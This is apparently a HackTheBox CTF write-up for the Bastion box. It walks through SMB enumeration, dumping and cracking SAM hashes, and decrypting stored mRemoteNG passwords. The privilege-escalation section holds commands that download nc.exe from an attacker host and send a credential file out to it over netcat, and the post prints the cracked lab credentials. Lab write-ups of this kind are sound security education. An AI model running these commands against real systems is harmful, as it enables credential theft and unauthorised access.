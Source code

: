 ```yaml
---
title: "HackTheBox Writeup: Bastion"
date: 2019-09-07T18:20:04+02:00
toc: true
showdate: true
tags:
    - hackthebox
    - writeup
    - ctf
---
```

{{%summary%}}
![img](/images/writeup-bastion/1.png)
{{%/summary%}}

Bastion proved to be a very easy yet pretty fun challenge, quite unique in its kind even if it doesn't present any particular difficulties, all one needs to complete this box is a search engine to learn how to accomplish certain tasks, all of which only take a couple minutes to solve, hence why so many people finished this box despite it not being one of those two clicks to root kind of boxes (I'm looking at you, Blue, Jerry, Lame, etc...). The first half of the challenge involves finding a Windows backup containing an old copy of the SAM database, which when read gives us SSH credentials to log in the box. Once inside the administrator's password must be extracted from the saved settings of a remote sessions manager.

---

## Drawing the perimeter

I begin by scanning the box with a standard service scan (-sV) and executing the default list of NSE scripts (-sC), and one of the first things one can notice is that nmap found guest login available on SMB:

![img](/images/writeup-bastion/2.png)

We can use this access to list the available shares:

```shell-session
$ smbclient -L 10.10.10.134
```

![img](/images/writeup-bastion/3.png)

Backups seems to be the only unprotected share on the system so let's access it and see what's inside:


```shell-session
$ smbclient \\\\10.10.10.134\\Backups
```

![img](/images/writeup-bastion/4.png)

This whole share contains a Windows backup, in fact if we go further in the directory tree we reach two *.vhd* (Virtual Hard Drive) files, which contain the whole backed up disk:

![img](/images/writeup-bastion/5.png)

One of these files is very big though so downloading it isn't very convenient, also we found a *note.txt* file on the root of the share which gives us a very clear hint on what we shouldn't be doing:

![img](/images/writeup-bastion/6.png)

But there is a solution to this problem. I'm going to mount this share on my own system and then mount the vhd files from there, giving me access to their content without having to download the whole huge file locally. We need to install two additional tools for this task:


```shell-session
$ sudo apt-get install cifs-utils
$ sudo apt-get install libguestfs-tools
```


Then we mount the share on our computer:


```shell-session
$ mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw
```


So now we can access the share from /mnt/remote:

![img](/images/writeup-bastion/7.png)

Once navigated to the folder where the two .vhd files reside we can mount them on our disk with guestmount:



```shell-session
$ guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v
```


So we have the whole disk at our disposal now!

![img](/images/writeup-bastion/8.png)

---

## Stealing user credentials from the SAM file

The Users folder does not contain any flags and really there are only two truly interesting files in the whole backup, those two being SAM and SYSTEM: SAM is where Windows stores user passwords in an encrypted form, SYSTEM is where the encryption key for these passwords is located, so with these two files at hand we can get the credentials of the users. These files are stored in */mnt/vhd/Windows/System32/config/*:

![img](/images/writeup-bastion/9.png)

We can list the users of which the crentials are stored in the SAM file using *chntpw* however if we mounted the virtual disk on a read-only mount we have to copy the file in a different folder first:




```shell-session
$ chntpw -l SAM
```

![img](/images/writeup-bastion/10.png)

The Administrator and Guest accounts appear to be disabled so we cannot retrieve the administrator's password, however L4mpje isn't, so we can dump its hash and crack it with hashcat. First we use *samdump2* to create a text file containing all the hashes:



```shell-session
$ samdump2 ./SYSTEM ./SAM > /home/baud/bastion/hash.txt
```

![img](/images/writeup-bastion/11.png)

The last field is the hashed password, hashed in NTLM. In order for hashcat to crack it we need it to be all uppercase so we can do this with awk:

![img](/images/writeup-bastion/12.png)

Once we have the file with the correct hash in it we can use hashcat for a dictionary attack to crack it, I'm going to use the classic *rockyou.txt* wordlist, which is pretty much always sure to hit the target in CTF challenges:


```shell-session
$ hashcat -m 1000 -a 0 hashcat.txt rockyou.txt --force
```

**-m 1000** tells hashcat what hash type we're cracking, NTLMv2 in our case, and **-a 0** tells it to perform a dictionary attack. --force will run the attack despite hashcat not recognizing what hardware is installed on the computer, since I'm using a VM (installed on a bad laptop, I should add). In just a few seconds we get the results back and the password has been found:

![img](/images/writeup-bastion/13.png)

So now we have a pair of working credentials that we can use to login using the SSH service running on the box:



```shell-session
User: L4mpje
Pass: bureaulampje
```

![img](/images/writeup-bastion/14.png)

And thanks to this we can grab the user.txt flag from our current user's desktop:

![img](/images/writeup-bastion/15.png)

Looking at the installed programs shows something interesting, mRemoteNG is present on the system, which is a program that can manage remote sessions using a variety of protocols such as RDP, VNC, and many more:

![img](/images/writeup-bastion/16.png)

It takes only a few seconds of Googling to find out that mRemoteNG saves the settings of its managed connections locally, these settings also include user passwords given to the program for the establishment of a connection, and there already exist plenty of scripts that are able to decrypt these passwords from their encrypted form. To be more specific, this is how the passwords are stored in encypted form by mRemoteNG:

```shell-session
encrypted_pass = base64(IV + AES-128-CBC(cleartext_pass, md5(mR3m), IV))
```


---





## Privilege escalation: decrypting stored mRemoteNG passwords


All the passwords are stored in a file called confCons.xml which can be found at *%appdata%\mRemoteNG\*:

![img](/images/writeup-bastion/17.png)

The file can be downloaded on our own box using *nc.exe* (or just use *net use* to enable a local share, whatever you prefer), first nc.exe is downloaded on Bastion:

```shell-session
$ powershell Invoke-WebRequest "http://10.10.14.29:8080/nc.exe -OutFile "./nc.exe"
```



Then we set up a netcat listener on our box:



```shell-session
$ nc -lvp 9999 > confCons.xml
```


And then we send the file from Bastion:



```shell-session
$ nc -w 3 10.10.14.29 9999 < %appdata%\mRemoteNG\confCons.xml
```


Once the file is transferred we can open it to see its content and we can notice that one of the saved sessions belongs to the Administrator account:

![img](/images/writeup-bastion/18.png)

Now it's time to decrypt this password. I'm going to use [this](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py) Python script from Github but there even is a Metasploit module to do so if one is already running a meterpreter session, which isn't my case unfortunately:

![img](/images/writeup-bastion/19.png)

So now we have the administrator's credentials too!


```shell-session
User: Administrator
Pass: thXLHM96BeKL0ER2
```

We can use these to login using good old SSH and complete the box by grabbing the root flag:

![img](/images/writeup-bastion/20.png)

And Bastion is done.







